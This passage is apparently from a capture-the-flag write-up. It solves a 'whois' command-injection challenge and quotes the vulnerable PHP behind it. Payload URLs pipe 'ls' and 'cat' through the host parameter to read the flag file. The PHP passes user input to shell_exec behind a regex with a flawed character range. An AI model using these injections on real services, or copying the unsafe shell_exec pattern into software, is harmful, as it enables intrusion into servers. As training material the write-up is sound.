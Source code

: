 ![image](https://github.com/BrunoTeixeira1996/BrunoTeixeira1996.github.io/assets/12052283/2dc872b0-10e3-4895-910a-3a0e543d02ef)

This did not worked like I was expecting and after a couple of tries I started to think that the flag is probably inside a file so maybe I needed to first enumerate that file and then cat the content. 

I injected a `ls` in the first arg and a dot in the second one (`http://whois.0d.al:1341/?host=whois.ripe.net|ls&query=. whois|ls .`) and got the following output.

![image](https://github.com/BrunoTeixeira1996/BrunoTeixeira1996.github.io/assets/12052283/e8779995-305b-46f9-9a04-f479bba93230)

Nice! Now that I now what is the file name containing the flag, I can just cat and finish the challenge (`http://whois.0d.al:1341/?host=whois.ripe.net|cat&query=59bcc3ad6775562f845953cf01624225 whois|cat 59bcc3ad6775562f845953cf01624225`).

```bash
flag{CMD_INJ_NINJA!}
```

Now that the challenge was finished, I wanted to deep dive into the `.php` file present.

```php
<?php
error_reporting(0);

$output = null;
$host_regex = "/^[0-9a-zA-Z][0-9a-zA-Z\.-\|]+$/";
$query_regex = "/^[0-9a-zA-Z\. ]+$/";

if (isset($_GET["query"]) && isset($_GET["host"]) && is_string($_GET["query"]) && is_string($_GET["host"]))
{
    $query = $_GET["query"];
    $host = $_GET["host"];

    if (!preg_match($host_regex, $host) || !preg_match($query_regex, $query))
    {
        $output = "Invalid query or whois host.";
    }
    else
    {
        $output = shell_exec("/usr/bin/whois -h ${host} ${query}");
    }
}
else
{
    $output = "host and query are required.";
}

?>
```

As shown above , the function `shell_exec` is executing the `whois` command and looks like the only user validation they are doing is with a regex that can easily be bypassed The host regex matches a single character in the range between . (index 46) and | (index 124) (case sensitive) when using `\.-\|.` This way its possible to use `,` `|` to inject a command.
